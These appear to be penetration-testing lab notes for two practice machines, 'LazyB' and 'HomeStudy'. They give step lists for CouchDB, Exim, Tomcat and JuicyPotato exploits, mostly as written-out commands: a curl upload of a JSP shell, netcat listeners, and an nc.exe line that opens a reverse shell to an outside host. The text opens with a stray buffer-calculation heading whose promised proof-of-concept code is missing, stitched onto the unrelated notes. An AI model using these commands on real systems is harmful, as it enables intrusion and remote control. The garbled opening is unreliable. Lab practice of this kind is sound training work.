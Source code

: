 ### Calculate Buffer

Once we have attached the debugger to the application, we will use the following proof-of-concept code that we created based on information from the public exploit:

```bash
LazyB (.41)
```
Operating SystemLinux
Points20
Similar Machine (User)HackTheBox’s Canape
Similar Machine (Root)VulnHub’s Pluck
Exploit to Getting User
1. Port 5984 - CouchDB
2. couchdb httpd 1.6.0 exploit -
https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/exp.py
3. Modify exploit
4. Start netcat listener
5. User Shell!
Privilege Escalation to Root
1. SUID Binary - Exim 4.84-3
2. Use searchsploit
3. Modify 39535.sh
4. Run sed -i -e 's/\r$//' 39535.sh to fix errors
5. Run exploit
6. Root shell!

```bash
HomeStudy (.42)
```
Operating SystemWindows
Points20
Similar Machine (User)TryHackMe’s Thompson
Similar Machine (Root)HackTheBox’s Bounty
Exploit to Getting User
First Way
1. https://www.exploit-db.com/exploits/42953
2. curl -X PUT http://192.168.52.42:8080/shell.jsp/ -d @- < shell.jsp
3. nc -lvnp 1337
4. User Shell!
Second Way
1. https://www.exploit-db.com/exploits/42966
2. python 42966.py -u http://192.168.XX.42:8080 -p pwn
3. nc -lvnp 1337
4. User shell!
Privilege Escalation to Root
1. Machine is using a Windows 10 Pro and the SeImpersonatePrivilege is enabled.
2. Download JuicyPotato - https://github.com/ohpe/juicy-potato
3. Upload a netcat binary to target machine and run the command:
echo C:\Users\Rob\Desktop\nc.exe 192.168.123.123 12345 -e cmd.exe > rev.bat
1. Setup netcat listener in your local machine
2. Go to https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Pro and
copy a CLSID
1. Run JuicyPotato.exe -l 12345 -p C:\Users\Rob\Desktop\rev.bat -t * -c
{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
1. Root shell!

